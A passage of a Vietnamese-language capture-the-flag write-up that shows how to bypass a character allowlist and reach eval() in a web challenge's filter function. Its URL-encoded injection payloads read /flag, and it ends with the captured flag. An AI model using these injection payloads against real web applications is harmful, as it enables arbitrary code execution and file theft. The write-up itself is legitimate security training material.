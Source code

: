 ```
    ctf_start = 1636156800
    limit_function = lambda x: (x * 2) + 147

    limit = golf.calculate_limit(rctf_host, challenge_id, ctf_start, limit_function)
    return limit


def is_within_bounds(payload: str) -> bool:

    return len(payload) <= get_golf_limit()
```
Ngoài ra file docker còn cho chúng ta biết được là flag đang ở /flag

Nhìn vào file filters.py, trong hàm e chúng ta sẽ thấy sự xuất hiện của eval().

Mục tiêu của chúng ta là gọi được eval, sau đó thực hiện: `open('/flag').read()`

kiểm tra trong file check.py, chỉ có nhưng kí tự trong allowlist được phép sử dụng.

Nhưng trong payload của chúng ta sử dụng có những kí tự không được phép: p, n, /, f, a, g, ., r

lúc này chúng ta có thể sử dụng hàm character trong filters để đổi từ giá trị hex sang ascii để lấy kí tự mong muốn. (Ở đây có một lưu ý là chỉ có số 6, 1, 4 là được phép sử dụng).
- p = chr(112) = chr(66+46)
- n = chr(110) = chr(66+44)
- / = chr(47) = chr(46+1)
- f = chr(102) = chr(44+46+6+6)
- a = chr(97) = chr(16*6+1)
- g = chr(103) = chr(16*6+6+1)
- . = chr(46)
- r = chr(114)

Vậy:
```
open("flag.txt").read() 
'o'%2b(66%2b46)|ch%2b'e'%2b(66%2b44)|ch%2b'("'%2b(46%2b1)|ch%2b(16*6%2b6)|ch%2b'l'%2b(16*6%2b1)|ch%2b(16*6%2b6%2b1)|ch%2b'")'%2b(46)|ch%2b(114)|ch%2b'e'%2b(16*6%2b1)|ch%2b'd()'
```
Nhưng trong hàm `e` kiểm tra xem 4 kí tự đầu tiên của tham số truyền vào có phải là open hay không. Nếu là open thì việc gọi eval sẽ thất bại. Vậy nên chúng ta cần sửa đổi một tý để payload trở thành:
```
(open)("flag.txt").read()
'(o'%2b(66%2b46)|ch%2b'e'%2b(66%2b44)|ch%2b')'%2b'("'%2b(46%2b1)|ch%2b(16*6%2b6)|ch%2b'l'%2b(16*6%2b1)|ch%2b(16*6%2b6%2b1)|ch%2b'")'%2b(46)|ch%2b(114)|ch%2b'e'%2b(16*6%2b1)|ch%2b'd()'
```
![image](https://user-images.githubusercontent.com/83667873/142007615-0d08bb00-bf09-4d22-92ec-dacd5c5af121.png)

Cuối cùng, gọi hàm e để call eval:
```
eval((open)("flag.txt").read())
('(o'%2b(66%2b46)|ch%2b'e'%2b(66%2b44)|ch%2b')'%2b'("'%2b(46%2b1)|ch%2b(16*6%2b6)|ch%2b'l'%2b(16*6%2b1)|ch%2b(16*6%2b6%2b1)|ch%2b'")'%2b(46)|ch%2b(114)|ch%2b'e'%2b(16*6%2b1)|ch%2b'd()')|e
```

![image](https://user-images.githubusercontent.com/83667873/142007920-ece3a1d9-7d85-4ee9-a487-91718b79a007.png)

### Flag: dam{p4infu1_all0wl1st_w3ll_don3}

## Thank you for your reading!
